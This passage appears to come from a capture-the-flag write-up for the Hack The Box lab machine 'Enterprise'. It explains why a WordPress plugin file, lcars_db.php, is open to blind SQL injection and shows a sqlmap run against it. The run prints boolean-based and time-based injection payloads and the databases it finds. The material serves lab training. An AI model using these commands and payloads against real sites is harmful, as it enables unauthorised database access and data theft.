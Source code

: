 ## lcars_db.php
Visiting `lcars_db.php`:
```bash
$ curl -s http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 

Catchable fatal error: Object of class mysqli_result could not be converted to
string in /var/www/html/wp-content/plugins/lcars/lcars_db.php on line 16
```
That happens because even though lcars_db.php doesn't have a (int) type change before passing the variable to sql query. 
It doesn't have the below code which fetches the query row and outputs it properly in form of string.  
```php
 if ($result){
        $row = $result->fetch_row();
        if (isset($row[0])){
            echo $row[0];
        }
    }
```
So this one becomes sort of Blind-SQL injection.

## Dumping databases
Using `sqlmap` to get databases:
```bash
$ sqlmap -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -dbms mysql --dbs
sqlmap -u http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -dbms mysql --dbs
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:53:44 /2021-07-26/

[02:53:44] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: query (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: query=(SELECT (CASE WHEN (4477=4477) THEN 1 ELSE (SELECT 2905 UNION SELECT 3751) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: query=1 AND (SELECT 7398 FROM (SELECT(SLEEP(5)))LHvQ)
---
available databases [8]:
[*] information_schema
[*] joomla
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys
[*] wordpress
[*] wordpressdb
```